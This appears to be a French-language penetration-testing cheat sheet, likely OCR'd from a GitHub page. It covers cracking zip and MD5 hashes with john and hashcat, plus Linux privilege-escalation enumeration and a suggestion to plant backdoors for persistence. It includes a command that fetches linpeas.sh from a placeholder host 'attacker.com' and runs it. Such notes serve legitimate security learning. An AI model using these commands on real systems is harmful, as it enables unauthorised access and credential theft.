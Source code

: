 - Crack de hash / bruteforce password local

```bash
# Hasher un zip
zip2john backup.zip > hashes

# Bruteforce le hash
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
john --show hashes

# Voir l'identité d'un hash (fonction de hash)
hashid 2cb42f8734ea607eefed3b70af13bbd3

# Bruteforce le hash
echo '2cb42f8734ea607eefed3b70af13bbd3' > hash
hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
```

## 4. Élévation de Privilèges

### Objectif : Escalade de privilèges et maintien de l’accès.

### Techniques :

- Escalade locale : Rechercher des configurations mal sécurisées.
- Backdoors : Utiliser des backdoors pour garder un accès.

### Stratégie

- version de linux -> exploit ?
- historique utilisateur, bashrc, bash history, variable ENV
- si y'a des cron qui tournent avec des droits en écriture le mettre
- GTFOBins, LOLBins sur la machine qui peuvent servir à faire une elevation de privilège -> va sur GTFO et regarde comment l'exploiter : gtfobins.github.io
- sudo -l pour voir ce que tu peux exec en root, et si un binaire regarde sur GTFO
- find / -perm -u=s -type f 2>/dev/null -> sort une liste de binaire et regarde s'ils sont en GTFO

### Outils :

- Mimikatz, Linpeas.sh
- GTFOBins, LOLBins

```bash
- linpeas.sh : Script d’audit pour découvrir des moyens d’escalader les privilèges.
wget http://attacker.com/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

# regarder les groups du users
id
# regarder les binaires liés à un group
find / -group bugtracker 2>/dev/null
# infos sur un fichier (looking for setuid, suid)
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker

sudo -l
crontab -l
env
find / -perm -u=s -type f 2>/dev/null
find / -perm /4000 2>/dev/null
getcap -r / 2>/dev/null

ps aux
ss -tln
```